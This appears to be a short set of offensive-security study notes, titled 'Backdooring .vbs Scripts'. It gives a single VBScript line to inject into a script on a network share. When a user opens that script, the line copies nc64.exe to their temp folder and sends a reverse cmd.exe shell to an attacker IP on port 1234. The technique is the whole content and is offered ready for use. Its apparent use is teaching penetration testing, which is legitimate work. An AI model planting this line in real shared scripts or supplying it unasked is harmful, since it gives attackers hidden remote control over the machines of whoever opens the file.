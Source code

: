 ```yaml
---
title: 4.1 Backdooring .vbs Scripts
updated: 2023-04-23T19:14:45.0000000+04:00
created: 2023-04-17T22:34:02.0000000+04:00
---
```


PM
Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y [\\\10.10.28.6\myshare\nc64.exe](file://10.10.28.6/myshare/nc64.exe) %tmp% & %tmp%\nc64.exe -e cmd.exe \<attacker_ip\> 1234", 0, True

This will copy nc64.exe from the share to the user's workstation %tmp% directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

